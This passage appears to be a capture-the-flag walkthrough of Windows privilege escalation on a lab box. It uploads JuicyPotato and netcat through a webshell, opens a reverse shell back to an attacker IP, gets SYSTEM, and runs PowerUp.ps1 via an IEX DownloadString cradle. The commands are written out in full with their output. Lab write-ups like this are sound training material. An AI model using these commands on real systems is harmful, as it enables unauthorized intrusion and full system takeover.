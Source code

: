 A quick google for "SeImpersonatePrivilege privilege escalation" leads us to "JuicyPotato".

Start a netcat listener.

Download the "JuicyPotato.exe" binary as shown in the "Juicypotato and SeImpersonatePrivilege" section.

Start a python3 web server in the directory containing the exploit binary.

Upload the files by pasting the following URLs into the browser:

> [http://10.10.10.9/webshell.php?fupload=JuicyPotato.exe](http://10.10.10.9/webshell.php?fupload=JuicyPotato.exe)
>
> [http://10.10.10.9/webshell.php?fupload=nc64.exe](http://10.10.10.9/webshell.php?fupload=nc64.exe)

Finally, paste the following URL into the browser and send:

> http://10.10.10.9/webshell.php?fexec=JuicyPotato.exe -l 2345 -p cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.10 8888" -t \* -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

In our listener we get a shell as "system":

```
└─$ nc -nvlp 8888
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49336.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

### Powershell script execution

Download and update the "PowerUp.ps1" script by adding the following line to the end of the script:

> Invoke-AllChecks

We can then use our PHP remote command execution script at follows to get powershell script execution:

> [http://10.10.10.9/rce.php?cmd=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.10/PowerUp.ps1%27)%20|%20powershell%20-noprofile%20-](http://10.10.10.9/rce.php?cmd=echo%20IEX\(New-Object%20Net.WebClient\).DownloadString\(%27http://10.10.14.10/PowerUp.ps1%27\)%20|%20powershell%20-noprofile%20-)

The result is the output of the "Invoke-AllChecks" function that is run on the target.

## Resources
